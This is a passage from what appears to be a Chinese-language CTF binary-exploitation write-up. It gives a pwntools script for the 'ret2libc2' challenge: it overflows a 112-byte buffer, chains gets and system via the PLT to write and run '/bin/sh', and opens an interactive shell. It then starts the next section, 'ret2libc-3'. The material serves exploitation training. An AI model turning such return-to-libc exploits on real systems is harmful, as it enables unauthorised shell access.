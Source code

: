 ```python
from pwn import *


# ret2libc2
elf = ELF("./ret2libc2")
addr_system_plt = elf.plt["system"]
addr_gets_plt = elf.plt["gets"]
addr_buf2 = elf.symbols["buf2"]

pwn_obj = process("./ret2libc2")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_gets_plt) + 
    p32(addr_system_plt) + 
    p32(addr_buf2) + 
    p32(addr_buf2))
pwn_obj.sendline(b"/bin/sh")
pwn_obj.interactive()
```

看看效果：

![image-20230418205556136](./README.assets/image-20230418205556136.png)

## 06 ret2libc-3

例行检查：
